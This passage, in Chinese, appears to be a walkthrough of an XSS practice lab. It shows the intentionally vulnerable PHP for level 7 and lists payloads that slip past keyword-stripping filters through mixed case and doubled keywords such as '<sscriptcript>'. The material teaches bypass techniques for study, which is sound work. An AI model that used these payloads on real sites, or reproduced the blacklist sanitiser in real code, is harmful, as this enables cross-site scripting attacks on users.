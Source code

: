 * `<script` 转换成 `<scr_ipt` 
* `on` 转换成 `o_n` ，`src` 转换成 `sr_c` ，
* `data` 转换成 `da_ta`，`href` 转换成 `hr_ef`



发现这里没有大小写约束, 可以构造payload:
```js
"> <Script>alert(1)</script> //

"> <img Src=x OnError=alert(1)> //

"><a HrEf="javascript:alert(1)">bmjoker</a>//

"><svg x=" " Onclick=alert(1)>

"><ScriPt>alert(1)<sCrIpt>"

" OncliCk=alert(1) //
```

> SVG 是基于XML、用于描述二维矢量图形的一种图形格式


<br />

# level 7

部分源代码:
```php
<?php 
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

* 大小写不能用
* `script`, `on`, `src`, `data`, `href` 都直接转换成空

尝试双写绕过, 构造payload:
```js
"><sscriptcript>alert(1)</sscriptcript>


"><a hrhrefef=javascriscriptpt:alert(1)>bmjoker</a>
```
